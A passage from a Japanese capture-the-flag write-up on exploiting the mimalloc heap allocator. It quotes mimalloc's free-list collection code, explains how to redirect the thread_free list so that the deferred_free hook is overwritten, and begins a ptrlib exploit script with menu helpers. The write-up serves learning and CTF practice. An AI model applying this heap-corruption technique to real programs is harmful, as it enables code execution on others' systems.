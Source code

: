 ところが、freeされたページを使うとき、(ptr & 0xffffffffffc00000)をsegmentとして認識するので、そこに有効なsegmentがなければcrashしてしまいます。（逆にこの仕様だからfree listをsegmentに向けてmi baseが取れた。）
また、同じsegmentページには同じサイズクラスのページのみが集められます。

`_mi_page_free_collect`を見ると、thread_freeがある場合は`mi_page_thread_free_collect`が呼び出されています。
```c
void _mi_page_free_collect(mi_page_t* page) {
  mi_assert_internal(page!=NULL);
  //if (page->free != NULL) return; // avoid expensive append

  // free the local free list
  if (page->local_free != NULL) {
    if (mi_likely(page->free == NULL)) {
      // usual case
      page->free = page->local_free;
    }
    else {
      mi_block_t* tail = page->free;
      mi_block_t* next;
      while ((next = mi_block_next(page, tail)) != NULL) {
        tail = next;
      }
      mi_block_set_next(page, tail, page->local_free);
    }
    page->local_free = NULL;
  }
  // and the thread free list
  if (mi_tf_block(page->thread_free) != NULL) {  // quick test to avoid an atomic operation
    mi_page_thread_free_collect(page);
  }
}
```
`mi_page_thread_free_collect`では`page->thread_free`の最後のポインタ(tail)に`page->free`を書き込み、`page->free`に`page->thread_free`の最初のポインタを入れています。
さて、`deferred_free`は標準でNULLが入っているので、ここを`page->thread_free`が指すと`deferred_free`がtailとして認識されます。ただし、headを有効な場所にしなくてはならないので、`thread_free`が直接`deferred_free`を指してはいけません。
あとfree listを繋げたあとはpage->freeをNULLにしてあげましょう。

```python
from ptrlib import *

def create(index, size):
    sock.sendlineafter(">>\n", "1")
    sock.sendlineafter("\n", str(index))
    sock.sendlineafter("\n", str(size))
    return

def write(index, data):
    sock.sendlineafter(">>\n", "2")
    sock.sendlineafter("\n", str(index))
    sock.sendafter("\n", data)
    return

def read(index):
    sock.sendlineafter(">>\n", "3")
    sock.sendlineafter("\n", str(index))
    return sock.recvline()

def delete(index):
    sock.sendlineafter(">>\n", "4")
    sock.sendlineafter("\n", str(index))
    return

libc = ELF("./libc.so.6")
libmi = ELF("./libmimalloc.so")
```
